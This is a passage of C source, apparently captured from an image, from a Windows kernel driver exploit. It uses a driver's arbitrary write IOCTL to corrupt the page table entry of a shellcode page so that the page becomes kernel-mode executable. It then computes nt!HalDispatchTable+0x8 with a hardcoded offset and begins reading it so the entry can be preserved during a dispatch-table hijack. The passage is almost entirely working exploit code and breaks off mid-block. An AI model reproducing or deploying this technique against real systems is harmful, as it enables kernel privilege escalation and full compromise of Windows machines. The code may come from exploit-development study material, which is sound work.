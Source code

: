 ```c
					// Buffer to send to the driver (write primitive)
					unsigned long long inBuf13[4];

					// Values to send
					unsigned long long one13 = 0x4141414141414141;
					unsigned long long two13 = shellcodePte;
					unsigned long long three13 = 0x0000000000000000;
					unsigned long long four13 = taintedPte;

					// Assign the values
					inBuf13[0] = one13;
					inBuf13[1] = two13;
					inBuf13[2] = three13;
					inBuf13[3] = four13;


					// Interact with the driver
					DWORD bytesReturned13 = 0;

					BOOL interact12 = DeviceIoControl(
						driverHandle,
						IOCTL_WRITE_CODE,
						&inBuf13,
						sizeof(inBuf13),
						&inBuf13,
						sizeof(inBuf13),
						&bytesReturned13,
						NULL
					);

					// Error handling
					if (!interact12)
					{
						printf("[-] Error! Unable to interact with the driver. Error: 0x%lx\n", GetLastError());
					}
					else
					{
						printf("[+] Successfully corrupted the PTE of the shellcode page! The kernel mode page holding the shellcode should now be RWX!\n");

						// Offset to nt!HalDispatchTable+0x8
						unsigned long long halDispatch = baseofKernel + 0x427258;

						// Use arbitrary read primitive to preserve nt!HalDispatchTable+0x8
						// Buffer to send to the driver (write primitive)
						unsigned long long inBuf14[4];

						// Values to send
						unsigned long long one14 = 0x4141414141414141;
						unsigned long long two14 = halDispatch;
						unsigned long long three14 = 0x0000000000000000;
						unsigned long long four14 = 0x0000000000000000;

						// Assign the values
						inBuf14[0] = one14;
						inBuf14[1] = two14;
						inBuf14[2] = three14;
						inBuf14[3] = four14;

						// Interact with the driver
						DWORD bytesReturned14 = 0;

```